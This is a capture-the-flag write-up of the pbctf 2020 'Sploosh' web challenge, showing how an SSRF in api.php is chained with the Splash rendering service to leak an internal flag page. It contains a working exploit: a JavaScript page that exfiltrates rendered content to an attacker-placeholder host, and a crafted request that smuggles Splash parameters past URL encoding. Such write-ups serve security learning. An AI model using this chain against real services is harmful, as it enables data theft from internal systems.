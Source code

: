 ## Sploosh - Web challenge - pbctf 2020
## Author: p4w@beerpwn
### Twitter: https://twitter.com/p4w16

## TL;DR
This challenge is about exploiting an __SSRF__ vulnerability along with __Splash__ (javascript rendering service).

## Challenge description
![img desc](screen/desc.png)


## Solution
Once connected to the challenge, the index page show a link where it is possible to download the source code.
Here it follow the docker configuration file for the challenge:

![img desc](screen/docker_compose.png)

The application is pretty simple, basically we have 3 file: __index.php__, __flag.php__ and __api.php__.
The __index.php__ page doesn't contain anything important, so I'll only show the __api.php__ and __flag.php__ pages.
<br>

This is the source for __api.php__
![img desc](screen/api.png)

and this the source code of __flag.php__
![img desc](screen/flag_source.png)

As we can see in __api.php__, it's possible to control the `url` GET parameter and if it is passed, then script will execute `file_get_contents` with the `http` wrapper to the host `splash`.
With a bit of googling it's possible to discover the service behind the scene. The repository of the splash project can be found here
* https://github.com/scrapinghub/splash

As it is possible to observe that to get the flag it's necessary to request the `flag.php` file, but the flag will be printed out only if the remote address that is requesting the resource is __172.16.0.13__ or __172.16.0.14__. At this point and considering what we have I start to thinking that I need some kind of __SSRF__ to retrieve the flag. Trigger the __SSRF__ is pretty easy in this situation, since no check is made on the `url` parameter, we can just pass arbitrary address in it. Problem is that the __SSRF__ is blind, I'm going to show what I mean with some screen.

![img desc](screen/google_req.png)

Here for example I used google.com domain as endpoint, but in the response we don't have all the page contents retrieved from google, instead only the geometry is present. At this point I start to looking more closely to the __Splash__ documentation (https://splash.readthedocs.io/en/stable/api.html).
Also referring to the `api.php` resource, it's possible to notice that the `url` parameter is __urlencoded__ before concatenation, this stop us to directly inject additional parameters on the query itself (`& -> %26`).
By reading the documentation we can notice that the __Splash API__ can be used along with many parameters. The first one that caught my attention was the `lua_source` parameter that can be passed to the `/execute` API endpint to run custom lua script. Searching more information about that I discover this article https://paper.seebug.org/354/ that explain how __Splash__ works. One thing that tell us is that we can't actually run arbitrary lua code since is sand-boxed for security reason.
Before going more in deep on the __Splash API__, let's see how it is possible to full control a request over the splash endpoint by exploiting the `url` parameter. The trick is simple we can just pass a full request to the internal address:
* `url=http://172.16.0.13:8050/render.html%3furl=http://example.com/`

With this payload it is possible to force the the application to make a request to the `render.html` API endpoint that will generate another request to the domain `example.com`. Let's verify that:

![img desc](screen/webhook_req.png)
![img desc](screen/webhook.png)

Works fine, at this point I knew that I was able to fully control a request to the splash endpoint along with any parameter I want to use. The first idea was to use the `lua_source` parameter to inject some lua script to leak the flag. I tried that solution, unfortunately I fail so I start to read more documentation.
The __Splash__ service have many endpoints that can be used to fetch pages such as `/render.jpeg`.

![img desc](screen/render_jpeg_docs.png)

At this point I start to think for a chain that can be used to retrieve the flag by using this functionality. The basic idea that I had was to embed an `<img>` tag in a page controlled by me and pointing to the `/render.jpeg` endpoint with the `url` parameter `http://172.16.0.14/flag.php`. After that I can leak the contents with some JavaScript code.

This is the code I used to do that:

```
<html>
  <body>
    <script>
      function exfil(){
        var c = document.getElementById("myCanvas");
        var ctx = c.getContext("2d");
        var img = document.getElementById("preview");
        ctx.drawImage(img, 30, 30);
        var i = new Image();
        i.src="http://<yourdomain-here>:9999/exfil?data="+btoa(c.toDataURL());
      }
    </script>
    <img id="preview" src="http://172.16.0.13:8050/render.jpeg?url=http://172.16.0.14/flag.php" onload="exfil()">
    <canvas id="myCanvas" />
  </body>
</html>
```

To make this work, I just play a bit with the `api.php` page and come up with this payload:
```
GET /api.php?url=http://172.16.0.13:8050/render.html%3furl=http://<yourdomain-here>:8000/exploit.php%26allowed_domains=beerpwn.it HTTP/1.1
...
```
basically the first request goes to the `/render.json` endpoint that is used inside the `api.php`, then a request for `/render.html` is generated along with the `url` parameter pointing to my domain where I hosted the page showed before is hosted.
You can look the exploit working during the CTF in the screenshots below.

![img desc](screen/SSRF.png)
![img desc](screen/recv_connection.png)
![img desc](screen/flag_recv.png)

After that we can just decode the base64 and we get the flag rendered in a jpeg file!

![img desc](screen/flag.png)
